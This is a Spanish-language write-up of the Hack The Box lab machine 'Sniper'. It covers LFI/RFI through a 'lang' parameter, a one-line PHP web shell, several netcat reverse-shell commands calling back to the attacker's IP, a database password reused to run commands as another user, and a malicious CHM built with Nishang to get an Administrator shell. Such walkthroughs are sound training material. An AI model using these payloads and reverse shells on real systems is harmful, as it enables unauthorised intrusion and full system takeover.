 ```yaml
---
layout: post
title: Sniper
date: 2022-11-29
categories: ["HTB"]
thumbnail: "assets/images/Sniper.png"
---
```


# Sniper [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.151 -oG allPorts`
- `nmap -sCV -p80,135,139,445,49667 10.10.10.151 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Inspección

Cuando entramos en la página vemos varios apartados, sólo dos de ellos redireccionan a una ruta diferente del sistema, el apartado `Our Services` tiene un parámetro llamado `lang` el cual apunta a un archivo `PHP` de diferente idioma, vamos a ver si es vulnerable a `LFI`.

Para ello cambiaremos `lang=blog-en.php` por `lang=\windows\win.ini`, la página se nos queda en blanco, si inspeccionamos el código de la página veremos al final del todo el resultado, por lo que es vulnerable.

Vamos a probar si también es vulnerable a `RFI`. Para ello nos montaremos un servidor con el demonio de `Samba`, de lo contrario no funcionará. Crearé un archivo con una frase y lo meteré en la carpeta de `Samba`, teniendo esto cambiaremos el parámetro anterior por `lang=\\10.10.14.15\test.txt`.

Bien! Vemos que también es vulnerable a `RFI`, vamos a crearnos una Web Shell para poder ejecutar comandos en la Web, para ello crearemos el siguiente archivo en `PHP`:

```
<?php system($_REQUEST['cmd']); ?>
```

En mi caso lo llamé `cmd.php` para identificarlo mejor. Una vez creado lo llevamos a la carpeta compartida por `Samba` y cambiaremos de nuevo el parámetro `lang`.

- `http://10.10.10.151/blog?lang=\\10.10.14.15\share\cmd.php&cmd=whoami`


```
</html>
nt authority\iusr
</body>
</html>
```
Bien! Ya tenemos ejecución remota de comandos!

### Shell

Para obtener la Shell utilizaremos el archivo `PHP` que nos habíamos creado más `NC`,
de tal manera que el comando que ejecutaremos será NC para entablarnons la conexión.

Para ello utilicé la versión de `NC` de `32 bits`, el cual pude encontrar en [`GitHub`](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Una vez descargado lo volveremos a copiar en la carpeta compartida de `Samba`.

Una vez todo lo anterior esté preparado nos pondremos en escucha por el puerto que queramos, en mi caso `4444`.

- `rlwrap -cAr nc -nlvp 4444`

Bien, ahora podemos pasar de nuevo a la web, pero ahora cambiaremos un poco el anterior comando, dejando el parámetro `lang` así:

```
lang=\\10.10.14.15\share\cmd.php&cmd=\\10.10.14.15\share\nc.exe -e cmd 10.10.14.15 4444
```

Tras unos segundos de espera veremos que nos pudimos entablar la conexión.

Fantástico! Ya estamos en la máquina como `IUSR`!

### Subida de privilegios #1

Bien, antes de ser administradores de la máquina tenemos que pasar por otro usuario, en este caso por `Chris`. Gracias a `C:\Users` pude ver a los usuarios, por eso sé que es `Chris`.

Con esto sabido inspeccionamos un poco el directorio `C:\inetpub\wwwroot\user`, vemo que hay un archivo llamado `db.php` el cual contiene una contraseña para conectarse a la Base de Datos. Nos copiamos la contraseña.

Una vez hecho esto nos pasamos a `PowerShell`, para ello ejecutamos `powershell` y ejecutamos `hostname` para ver el `HostName` de la máquina, ahora veremos para qué.

Para ver si la contraseña introducida es la correcta haremos lo siguiente:

```
PS C:\> $user = "Sniper\Chris"
PS C:\> $pass = "36mEAhz/B8xQ~2VM"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $user, $secstr
PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
```

Como vemos al ejecutar el comando nos dice que somos `Chris`, por lo que la contraseña es correcta. Para ganar una Shell como `Chris` hay que hacerle un pequeño cambio al último comando ejecutado, de tal manera que llamaremos al `NC` que habíamos subido con anterioridad a `Samba`.

Antes de eso deberíamos ponernos en escucha con `NC`, en mi caso será por el puerto `443`. Ahora sí, podemos ejecutar el siguiente comando:

```
PS C:\> Invoke-Command -ScriptBlock { \\10.10.14.15\share\nc.exe -e cmd 10.10.14. 443 } -Credential $cred -Computer localhost
```
Estupendo! Ya tenemos una Shell como `Chris`!

### Subida de privilegios #2

Si nos vamos a la raíz veremos una carpeta llamada `Docs` y dentro de ella un archivo `TXT` con el nombre de `note.txt`. Vamos a mirar a ver qué nos dice:

> Hi Chris, Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
>
> Regards, Sniper CEO.

Como vemos le está diciendo a `Chris` que sus habilidades en `PHP` son muy malas, que por favor hable con `YamiTenshi` para que él le haga clases. También le dice que espera que esté preparado para la documentación de la nueva app, que la suelte aquí cuando la haya terminado.

Si nos vamos a las descargas de `Chris` veremos un archivo llamado `instructions.chm`, si queremos ese archivo nos lo tenemos que pasar a nuestra máquina `Windows`.

Una vez nos lo hayamos pasado veremos un docuemnto, en verdad no tiene ningún tipo de relevancia más allá de que es un archivo `CHM` y `Nishang` tiene una herramienta ([`Out-Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)) que crea archivos `CMH` armados.

Para poder utilizar la herramienta nos la tenemos que descargar del repositorio de [`Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) e importarlo en `PowerShell`, para ello haremos lo siguiente en nuestra máquina `Windows`:

- `Import-Module .\Out-CHM.ps1`

Una vez hecho lo anterior podemos pasar al siguiente paso, crear nuestro archivo `CHM` malicioso, para ello ejecutaremos lo siguiente:

```
Out-CHM -Payload "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```

Como vemos estamos especificando una ruta, esa ruta será la que se utilizará en la máquina víctima y donde se alojará nuestro `NC`.

Se nos creará un `doc.chm`, lo vamos a pasar a nustra máquina de atacante y de ahí a la máquina víctima con `Samba`.

- `copy \\10.10.14.15\share\doc.chm \Docs\`

Bien, también nos copiaremos el `NC`, aunque en la carpeta que hayamos especificado antes:

- `copy \\10.10.14.15\share\nc.exe \windows\system32\spool\drivers\color\`

Bien! Ya estamos listos, nos ponemos en escucha con `NC` por el puerto especificado anteriormente:

- `rlwrap -cAr nc -nlvp 4444`

Enhorabuena! Estamos en la máquina como `Administrator`! Esto se nos ha complicado un poco!
